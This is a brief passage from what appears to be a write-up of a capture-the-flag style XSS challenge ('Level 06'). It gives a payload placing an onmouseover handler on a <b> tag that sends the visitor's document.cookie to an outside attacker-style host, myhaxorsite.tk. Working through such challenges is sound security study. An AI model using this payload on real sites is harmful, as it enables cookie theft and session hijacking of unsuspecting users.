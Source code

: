 #### Level 06 - Swedian sends you high up in the sky

We have only the <b> html tag for this one and the hint suggest onmouseover. Lets also use document.cookie for this one. 

```html
<b onmouseover="javascript:location.href='http://myhaxorsite.tk?cookiedata=' + document.cookie';">asdf</b>
```

Nice little challenge :-)